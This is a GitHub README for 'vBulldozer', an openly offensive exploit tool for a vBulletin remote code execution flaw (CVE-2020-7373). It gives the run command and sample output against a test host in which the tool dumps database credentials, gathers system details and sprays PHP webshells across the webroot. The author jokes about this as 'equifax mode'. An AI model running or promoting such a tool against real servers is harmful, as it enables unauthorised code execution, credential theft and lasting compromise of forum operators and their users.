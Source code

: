 # vBulldozer
Very loud vBulletin exploit, WIP. Exploits: CVE-2020-7373

Currently gives you a way to execute arbritary PHP code, and does some info-gathering. Deliberately loud as heck. 

It uses a really dumb trick (recursively trying to drop a webshell into every directory) to attempt to guarentee some form of webshell will be obtained.

I mostly wrote that as a joke, its called "equifax mode", as it could lead to you spraying like 30 webshells all over the webroot. 

This is the loudest, most unclean, exploit I think I've written in a while. It has absolutely zero stealth features.

For the writeup by zenofex on how this bug was found, see here: https://blog.exploitee.rs/2020/exploiting-vbulletin-a-tale-of-patch-fail/

```
$ python vBulldozer.py https://vb.test.local/
{+} Checking https://vb.test.local/
{*} Target is vulnerable!
{+} Proceeding...
{+} Gathering some system information...
{>} PHP uname: Linux vb 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
{>} Current UID: 33
{>} Current Dir: /var/www/html
{+} Gathering database credentials...
{>} Database Host: localhost
{>} Database User: vb
{>} Database Pass: password123
{*} Got 3 paths to try...
{*} Using remote CWD: /var/www/html
{+} Checking https://vb.test.local/includes/vb5/template/bbcode/hax.php
{>} Your shell is at: https://vb.test.local/includes/vb5/template/bbcode/hax.php
{+} Checking https://vb.test.local/includes/vb5/template/cache/hax.php
{>} Your shell is at: https://vb.test.local/includes/vb5/template/cache/hax.php
{+} Checking 
{+} Done!
$
```

Todo:
* Maybe implement this whole gubbins for previous vb 5.x exploits - a rewrite of my old vBullshit might be in order?
* Fix bugs. 
* Add more bugs.
* Finish testing and committing updated version with alternative exploitation options that don't involve dropping a webshell.

Licence:
WTFPL
